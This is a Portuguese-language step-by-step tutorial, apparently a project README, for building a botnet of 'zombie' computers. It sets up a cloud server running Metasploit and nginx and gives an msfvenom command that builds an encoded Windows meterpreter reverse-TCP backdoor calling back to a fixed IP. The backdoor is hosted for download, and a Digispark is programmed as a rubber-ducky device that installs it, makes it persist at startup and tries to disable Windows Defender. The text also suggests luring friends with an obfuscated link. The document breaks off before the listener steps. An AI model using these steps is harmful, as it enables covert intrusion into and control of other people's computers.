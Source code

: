 PASSOS 

1 - Criar uma INSTANCIA e definir um IP estatico

    Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

    1 - Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

    2 - Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.

2 - Instalar METASPLOIT e NGINX


        Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

        1 - Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

            $ ssh usuario@instancia 

            apos se conectar rode instale o nginx ou apache como preferir

            $ sudo apt-get install -y nginx

            agora os comandos abaixo é para instalar o METASPLOIT

            $ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

            conceder permisão de execução para o instalador

            $ chmod +x msfinstall

            agora execulte o mesmo

            $ ./msfinstall

            Efeito isso e não deu nenhum error é so verificar se ta tudo certo.
            Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

            $ msfconsole --version

3 - Criar BACKDOOR REVERSE


        1 -  Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO,
        qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida. 

        se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

        $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe

        Rodando um ls verá que o arquivo payload.exe foi criado


4 - Configurar NGINX para download do backdoor

        1 - Vamos criar uma copia dele dentro da nossa pasta do servidor 

        $ sudo cp ./payload.exe /var/www/html/payload.exe

        3 - feito isso nosso arquivo vai esta disponivel para download em 

        http://34.97.212.80/payload.exe


5 - Digispark
    
        Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir".
        Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 
        
        Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 
        Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador. 
        
        Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. 
        
        com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 
        
        Agora bora lá, para isso você vai precisar de um Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16 
        
        https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark
        
        Com ele em mãos agora você vai precisar carregar neles os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos deste tutorial e voltar aqui
        
        https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85/
        
        Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar configurar o uDev 
        https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html
         

6 - Criar Payload para injectar o BACKDOOR 

          Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha
        
        Abra o Arduino IDE e cole o payload que vou deixar aqui para vocês
        
        copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo
        
        E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


7 - INICIAR ESCULTA DAS CONEXOES DO BACKDOOR

        Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta
        
    


8 - Obter acesso a uma maquina infectada
